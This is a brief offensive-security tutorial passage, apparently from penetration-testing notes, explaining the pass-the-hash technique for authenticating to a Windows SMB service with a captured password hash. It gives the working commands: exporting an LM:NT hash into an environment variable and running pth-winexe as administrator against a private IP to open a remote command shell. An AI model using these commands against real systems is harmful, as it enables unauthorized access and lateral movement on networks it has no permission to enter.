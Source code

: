 # Pass the hash - reusing hashes

Pass the hash (PTH) is a technique that lets the user authenticate by using a vlaid username and the hash, instead of the unhashed password. So if you have gotten a hold of a hash you might be able to use that hash against another system.

Pass the hash is a suite of different tools. 

So in order to use pass the hash we first need to put the hash in a env variable using the export command:

So we will atuhenticate against a smb-service. 

```
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
```
```
pth-winexe -U administrator //192.168.1.101 cmd
```